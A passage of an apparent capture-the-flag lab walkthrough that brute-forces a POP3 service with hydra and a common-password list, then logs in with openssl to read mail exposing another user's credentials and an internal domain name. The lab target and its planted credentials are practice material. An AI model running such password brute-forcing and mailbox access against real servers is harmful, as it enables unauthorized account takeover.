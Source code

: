 
### POP3 Enumeration

I proceeded to perform brute force the pop3 service with the Boris user but was unsuccessful, so I tried it with the Natalya user and found her password.

```console
root@kali:~$ hydra -l natalya -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt pop3://192.168.179.156 -s 55006  -t 50 -S
...
[55006][pop3] host: 192.168.179.156   login: natalya   password: bird
...
```

Then I logged in to pop3 and found the xenia's creds and a domain name that must be saved in the hosts file of the system.

```console
root@kali:~$ openssl s_client -connect 192.168.179.156:55006 -crlf -quiet
...
USER natalya
+OK
PASS bird
+OK Logged in.
list
+OK 2 messages:
1 631
2 1048
.
retr 2
+OK 1048 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from root (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id 17C96454B1
        for <natalya>; Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
Message-Id: <20180425031956.17C96454B1@ubuntu>
Date: Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
From: root@ubuntu

Ok Natalyn I have a new student for you. As this is a new system please let me or boris know if you see any config issues, especially is it's related to security...even if it's not, just enter it in under the guise of "security"...it'll get the change order escalated without much hassle :)

Ok, user creds are:

username: xenia
password: RCP90rulez!

Boris verified her as a valid contractor so just create the account ok?

And if you didn't have the URL on outr internal Domain: severnaya-station.com/gnocertdir
**Make sure to edit your host file since you usually work remote off-network....

Since you're a Linux user just point this servers IP to severnaya-station.com in /etc/hosts.
```
